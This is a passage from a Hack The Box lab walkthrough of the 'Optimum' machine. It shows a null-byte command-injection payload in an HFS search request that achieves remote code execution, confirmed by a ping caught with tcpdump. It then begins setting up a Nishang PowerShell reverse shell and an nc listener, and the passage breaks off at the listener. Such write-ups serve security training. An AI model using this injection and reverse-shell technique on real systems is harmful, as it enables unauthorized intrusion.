 *%00 null byte is captured in the GET “?search=” request.*

Next we add `/?search=%00{.exec|ping 10.10.14.17` and setup tcpdump to capture the ICMP request.

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121292019_image.png)

## RCE
tcpdump setup:

    tcpdump -i tun0

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121325320_image.png)

*successfully captured an ICMP and at this point we have Remote Code Execution (RCE).*

# RCE to Reverse Shell (Nishang)
At this point since we have remote code execution via the `exec` we can now setup a reverse shell using Nishang.

Nishang Github Link: https://github.com/samratashok/nishang

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121581020_image.png)

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121608302_image.png)

    cd Shells

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121638175_image.png)

*use the* `*Invoke-PowerShellTcp.ps1*`

copy `*Invoke-PowerShellTcp.ps1*` to working directory

    cp Invoke-PowerShellTcp.ps1 ~/Documents/htb/boxes/optimum

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121772690_image.png)

## Configure Invoke-PowerShellTcp.ps1
Checking out the powershell script:

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121819503_image.png)

The example shows the syntax we wnat to use:

    Invoke-PowerShellTcp -Reverse -IPAddress [ipv6 address] -Port 4444

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557121900630_image.png)

*copy that go to the bottom of the script and paste and change to target:*

![](https://paper-attachments.dropbox.com/s_63B976EF832897276D24CB4C8AB02A5780DEC6EE03C0771814D9D3FDB835DB6D_1557122335441_image.png)

## setup listener
    nc -lvnp 1337
